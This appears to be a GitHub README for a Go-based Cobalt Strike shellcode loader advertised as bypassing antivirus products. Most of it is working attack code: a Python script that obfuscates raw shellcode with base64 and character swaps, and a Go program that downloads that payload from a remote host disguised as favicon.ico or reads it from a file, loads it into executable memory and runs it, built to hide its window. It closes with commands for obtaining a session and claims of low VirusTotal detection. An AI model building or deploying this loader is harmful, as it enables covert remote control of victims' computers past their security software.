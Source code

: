 # 0x00 generate cobaltstrike shellcode

`Attacks =>> Packages =>> Payload generate =>> Output =>> Raw =>> payload.bin`

# 0x01 replace base64 shellcode

`python go-shellcode.py payload.bin`

```
import base64
import random
import numpy
import sys

# print len(sys.argv)
# print sys.argv[0]
# print sys.argv[1]

if len(sys.argv) != 2:
    sys.exit("[+] useage: python %s [File: payload.bin]"%sys.argv[0])
else:
    shellcode =  open("payload.bin","rb").read()
    b64shellcode = base64.b64encode(shellcode).decode()
    b64shellcode = b64shellcode.replace("A","#").replace("H","!").replace("1","@").replace("T",")")
    print("[+] b64shellcode= \n" + b64shellcode)
    f = open("favicon.txt","wb")
    f.write(b64shellcode)
    f.close()
```

# 0x02 comiple mian.go

**`go build -ldflags="-w -s -H=windowsgui" shell.go`**


```
package main


import (
    "encoding/base64"
    "fmt"
    "io/ioutil"
    "net/http"
    "os"
    "strings"
    "syscall"
    "unsafe"
    "flag"
)
var (
    kernel32     = syscall.NewLazyDLL("kernel32.dll")
    VirtualAlloc = kernel32.NewProc("VirtualAlloc")
    RtlMoveMemory = kernel32.NewProc("RtlMoveMemory")
)
func runUrl(url string) {
    resp, _ := http.Get(url)
    body, _ := ioutil.ReadAll(resp.Body)
    resp.Body.Close()


    str1 :=strings.Replace(string(body), "#", "A", -1 )
    str2 :=strings.Replace(str1, "!", "H", -1 )
    str3 :=strings.Replace(str2, "@", "1", -1 )
    str4 :=strings.Replace(str3, ")", "T", -1 )
    sDec,_ := base64.StdEncoding.DecodeString(str4)
    addr, _, _ := VirtualAlloc.Call(0, uintptr(len(sDec)), 0x1000|0x2000, 0x40)
    _, _, _ = RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&sDec[0])), uintptr(len(sDec)))
    syscall.Syscall(addr, 0, 0, 0, 0)
}


func ReadFile(filepath string){
    f, err := os.Open(filepath)
    if err != nil {
        fmt.Println("read file fail", err)
    }
    defer f.Close()
 
    fd, err := ioutil.ReadAll(f)
    if err != nil {
        fmt.Println("read to fd fail", err)
    }

    str1 :=strings.Replace(string(fd), "#", "A", -1 )
    str2 :=strings.Replace(str1, "!", "H", -1 )
    str3 :=strings.Replace(str2, "@", "1", -1 )
    str4 :=strings.Replace(str3, ")", "T", -1 )

    sDec,_ := base64.StdEncoding.DecodeString(str4) //base64解密
    addr, _, _ := VirtualAlloc.Call(0, uintptr(len(sDec)), 0x1000|0x2000, 0x40)
    _, _, _ = RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&sDec[0])), uintptr(len(sDec)))
    syscall.Syscall(addr, 0, 0, 0, 0)
}

func main() {

    var url string
    var code string

    flag.StringVar(&url, "u", "", "url")
    flag.StringVar(&code, "s", "", "shellcode")
    flag.Parse()

    if(len(os.Args) != 3){
        // fmt.Println("Usage:xxx.exe -u http://x.x.x.x/code.txt")
        // fmt.Println("Or xxx.exe -s base64_encode_shellcode")
        os.Exit(0)
    } else if url != "" {
        runUrl(url)
    }else{
        ReadFile(code)
    }
}

```

# 0x03 get session

**shell.exe -u http://172.16.242.1/favicon.ico**

**shell.exe -s payload.txt**

# bypassAV
条件触发式远控 VT 6/70 免杀国内杀软及defender、卡巴斯基等主流杀软
## 原理
https://pureqh.top/?p=5412
## use
将shellcode填至go_shellcode_encode.py生成混淆后的base64 payload<br>
然后将生成的payload填至main.go build("b64shellcode")<br>
将main.go中的url替换为你vbs的某个网页或文本（局域网网页同样可以，但是需要程序可以正常使用时此网页需要可以访问）<br>
编译：go build -ldflags="-w -s -H=windowsgui"<br>
